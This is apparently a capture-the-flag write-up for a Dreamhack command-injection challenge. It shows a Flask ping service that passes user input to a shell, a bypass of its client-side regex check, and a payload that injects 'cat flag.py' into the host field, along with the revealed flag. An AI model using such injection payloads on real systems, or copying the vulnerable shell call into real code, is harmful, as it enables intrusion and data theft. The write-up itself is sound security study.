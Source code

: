 ```yaml
---
title: command-injection-1
author: thanguyen165
date: 2023-01-01 07:00:00 +0700
categories: [Practice, dreamhack]
tags: [Web Exploitation, OS command injection]
---
```


* Level: 1
* Link: [https://dreamhack.io/wargame/challenges/44/](https://dreamhack.io/wargame/challenges/44/)

## Description

> A service that sends ping packets to a specific Host.
>
> Acquire the flag through Command Injection. The flag is located in ```.flag.py```

### Attached

```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)


@APP.route('/')
def index():
    return render_template('index.html')


@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 "{host}"'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')


if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)

```

## Analyzation

When receiving request, the server pings without checking
```sh
ping -c 3 "{host}"
```

This is a command injection. It can be easily solved by

```
"; cat "flag.py
```

But it did not work! It kept saying
```
Please match the requested format.
```

Check the source code of ```ping.html``` (by inspect tool)
```html
<h1>Let's ping your host</h1><br/>
<form method="POST">
  <div class="row">
    <div class="col-md-6 form-group">
      <label for="Host">Host</label>
      <input type="text" class="form-control" id="Host" placeholder="8.8.8.8" name="host" pattern="[A-Za-z0-9.]{5,20}" required>
    </div>
  </div>

  <button type="submit" class="btn btn-default">Ping!</button>
</form>
```

This is the regex
```html
<input pattern="[A-Za-z0-9.]{5,20}" required>
```

(check [regex101.com](https://regex101.com/) to understand the regex)

So we need to do something with it. Fortunately, it is in client side!

## Solution

Use inspect tool, delete the regex checking above. Then input the payload

```
"; cat "flag.py
```

The flag is
```
DH{pingpingppppppppping!!}
```